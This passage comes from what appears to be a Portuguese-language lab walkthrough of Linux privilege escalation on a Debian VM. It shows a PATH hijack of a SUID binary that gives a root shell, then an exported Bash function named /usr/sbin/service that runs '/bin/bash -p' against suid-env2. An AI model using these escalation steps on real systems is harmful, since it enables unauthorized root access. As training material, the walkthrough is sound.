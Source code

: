 ```shell
user@debian:~$ PATH=.:$PATH /usr/local/bin/suid-env
root@debian:~# 
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 14 - SUID / SGID Executables - Abusing Shell Features (#1) 

O executável ***/usr/local/bin/suid-env2*** é idêntico ao ***/usr/local/bin/suid-env***, exceto que ele usa o caminho absoluto do executável do serviço (***/usr/sbin/service***) para iniciar o servidor web apache2.

Verifique isso com strings:
```shell
user@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```
Nas versões do Bash <4.2-048, é possível definir funções de shell com nomes que se assemelham a caminhos de arquivo e, em seguida, exportar essas funções para que sejam usadas em vez de qualquer executável real nesse caminho de arquivo.

Verifique se a versão do Bash instalada na VM Debian é menor que 4.2-048:

```shell
user@debian:~$ /bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Então, pode-se criar uma função Bash com o nome "***/usr/sbin/service***" que executa um novo shell Bash (usando -p para que as permissões sejam preservadas) e exporte a função:

```shell
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
